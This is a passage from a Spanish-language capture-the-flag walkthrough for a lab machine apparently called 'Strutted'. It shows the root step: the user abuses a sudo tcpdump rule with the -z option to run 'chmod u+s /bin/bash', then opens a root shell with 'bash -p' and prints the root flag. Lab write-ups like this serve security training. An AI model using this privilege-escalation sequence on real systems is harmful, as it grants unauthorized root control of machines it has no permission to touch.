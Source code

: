 
 Como comando pone id pero yo voy a intentar asignar privilegios SUID a la bash. Como comando le pasare lo siguiente:

 ```bash
 james@strutted:~$ ls -l /bin/bash
-rwxr-xr-x 1 root root 1396520 Mar 14  2024 /bin/bash
james@strutted:~$ COMMAND='chmod u+s /bin/bash'
james@strutted:~$ TF=$(mktemp)
echo "$COMMAND" > $TF
chmod +x $TF
sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root
tcpdump: listening on lo, link-type EN10MB (Ethernet), snapshot length 262144 bytes
Maximum file limit reached: 1
1 packet captured
4 packets received by filter
0 packets dropped by kernel
james@strutted:~$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1396520 Mar 14  2024 /bin/bash
james@strutted:~$ bash -p
bash-5.1# 
```
Este comando tiene como objetivo establecer el bit setuid en el archivo /bin/bash, lo que permite que cualquier usuario que ejecute ese binario lo haga con los privilegios de root.

Normalmente, /bin/bash tiene permisos para que los usuarios lo ejecuten, pero sin privilegios elevados. Sin embargo, al agregar el bit setuid, el comportamiento cambia y el archivo se ejecuta como root sin importar qué usuario lo lance.


<div style="text-align: center;">
    <b><span style="color: #98FB98;">ROOT FLAG</span></b>
    <br>
    ---------------------------
</div>
 --------------------------


```bash
bash-5.1# whoami
root
bash-5.1# find / -iname "*root.txt*" 2>/dev/null
/root/root.txt
bash-5.1# cat /root/root.txt
98cc755e628e00442a681acd844b9c97
bash-5.1# 
```

